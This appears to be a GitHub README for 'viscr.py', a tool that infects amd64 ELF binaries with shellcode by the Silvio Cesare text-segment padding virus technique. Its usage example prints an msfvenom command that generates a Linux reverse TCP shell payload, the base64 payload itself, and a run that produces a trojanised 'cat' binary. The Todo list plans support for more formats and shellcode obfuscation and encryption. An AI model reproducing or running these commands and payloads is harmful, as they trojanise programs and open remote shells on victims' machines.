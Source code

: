 # About
Binary file shellcode injector.  
ELF injection based on [Silvio Cesar Text Segment padding](https://web.archive.org/web/20131008165947/http://vxheaven.org/lib/vsc01.html)  
Saves original binary execution flow

# Installation
`pip install -r requirements.txt`

# Usage
Works only with amd64 ELF bins, for now...  
Example:  
```
Usage: viscr.py <binary> <b64 encoded shellcode>
============
> msfvenom -p linux/x64/shell_reverse_tcp -f base64  LHOST=127.0.0.1 LPORT=4242
ailYmWoCX2oBXg8FSJdIuQIAEJJ/AAABUUiJ5moQWmoqWA8FagNeSP/OaiFYDwV19mo7WJlIuy9iaW4vc2gAU0iJ51JXSInmDwU=
============
> ./viscR.py cat ailYmWoCX2oBXg8FSJdIuQIAEJJ/AAABUUiJ5moQWmoqWA8FagNeSP/OaiFYDwV19mo7WJlIuy9iaW4vc2gAU0iJ51JXSInmDwU=
Using user supplied shellcode
Arch === amd64
Endian === little
Found cave at 0x7049 ; size - 16457
cat_infctd created. Use wisely
```

# Todo
+ PE, Mach-O support
+ ARM64 support
+ Shellcode encoding/ubfuscation/encryption
+ etc. etc. etc.
